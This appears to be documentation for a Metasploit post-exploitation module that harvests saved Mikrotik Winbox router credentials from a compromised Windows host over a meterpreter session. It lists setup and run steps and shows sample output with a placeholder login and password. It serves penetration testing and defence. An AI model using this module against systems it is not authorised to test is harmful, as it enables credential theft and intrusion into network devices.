 ## Vulnerable Application

Any Windows host with a `meterpreter` session and Mikrotik Winbox installed.

Winbox can be downloaded [here](https://mikrotik.com/download)

### Installation Steps

1. Download and open Mikrotik Winbox
2. Enter a RouterOS device address into `Connect to`, username into `Login`, password into `Password` and check the flag `Keep Password`
3. Click Connect

## Verification Steps

1. Get a `meterpreter` session on a Windows host.
2. Do: `run post/windows/gather/credentials/winbox_settings`
3. If any users in the system has a `Keep Password` enabled in Winbox, the credentials will be printed out.

## Options

 **VERBOSE**

- By default verbose is turned off. When turned on, the module will show the HexDump of `settings.cfg.viw` files.

## Scenarios

```
msf6 post(windows/gather/credentials/winbox_settings) > run

[*] VERBOSE: false
[*] Checking Default Locations...
[*] C:\Users\Administrator\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw not found ....
[*] Found File at C:\Users\FooBar\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw
[+] Login: ThisIsUsername
[+] Password: ThisIsPassword
[*] Post module execution completed
```
